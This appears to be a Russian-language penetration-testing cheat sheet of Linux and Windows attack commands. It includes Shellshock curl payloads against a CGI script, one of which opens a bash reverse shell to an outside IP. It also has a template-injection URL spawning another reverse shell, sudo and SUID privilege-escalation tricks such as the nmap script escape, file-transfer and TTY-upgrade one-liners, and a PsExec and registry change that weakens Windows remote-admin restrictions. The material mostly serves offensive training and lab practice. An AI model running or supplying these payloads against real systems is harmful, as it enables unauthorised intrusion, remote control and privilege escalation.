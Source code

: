 Информация о системе в txt-файле:

        дистрибутив;
            cat /etc/issue
           cat /etc/*-release
       версия ядра и разрядность;
                   cat /proc/version
                 uname -a
                  uname -mrs
                    rpm -q kernel
                   dmesg | grep Linux
                    ls /boot | grep vmlinuz-
        информация о сетевом интерфейсе;
        табличка iptables;
        первые 5 сервисов с рут-правами.


curl -H "User-Agent: () { :;}; echo; /bin/sudo -l" http://10.8.0.10/cgi-bin/shell.sh




curl -H "User-Agent: () { :; }; echo; /bin/bash -i >& /dev/tcp/10.8.0.4/1234 0>&1" http://10.8.0.10/cgi-bin/shell.sh


http://localhost.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.61/4242 0>&1"`'}


Sudo -l
find hacker -exec whoami \;
find / -perm -u=s -type f 2>/dev/null

 TF=$(mktemp) 
 echo 'os.execute("/bin/bash")' > $TF
sudo nmap --script=$TF 

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi

https://gtfobins.github.io/  повышение привелегий через судо-приложения


https://github.com/rebootuser/LinEnum
реверс
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#reverse-shell



реверс генератор


https://www.revshells.com/




Также вы можете загрузить zip-файл с RustHound https://github.com/OPENCYBER-FR/RustHound/archive/master.zip

wget https://example.com/file.zip - стянуть файйл с сервера. У себя сервер - python3 -m http.server 8080



повысить до tty командой 
python3 -c 'import pty; pty.spawn("/bin/bash")'

/bin/bash -p - это команда запуска интерпретатора командной строки Bash с флагом -p, который означает "privileged mode" (привилегированный режим).


Psexec -i \\192.168.50.200 -u administrator -s cmd.exe Привелигерованный режим...
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f


